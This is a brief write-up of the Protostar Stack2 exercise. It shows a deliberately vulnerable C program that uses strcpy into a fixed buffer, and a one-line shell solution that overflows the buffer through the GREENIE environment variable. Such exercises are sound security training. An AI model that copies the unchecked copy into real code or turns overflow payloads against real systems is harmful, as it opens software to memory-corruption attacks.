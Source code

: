 # Protostar :: Stack2

Here is the code for this exercise.
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

This exercise is identical to the previous exercise, only now we're
writing our payload into an environment variable to solve it. Take a look at
the stack0 writeup to learn how to do it.
```bash
$ export GREENIE=$(python -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d"')
$ ./stack2
you have correctly modified the variable
```
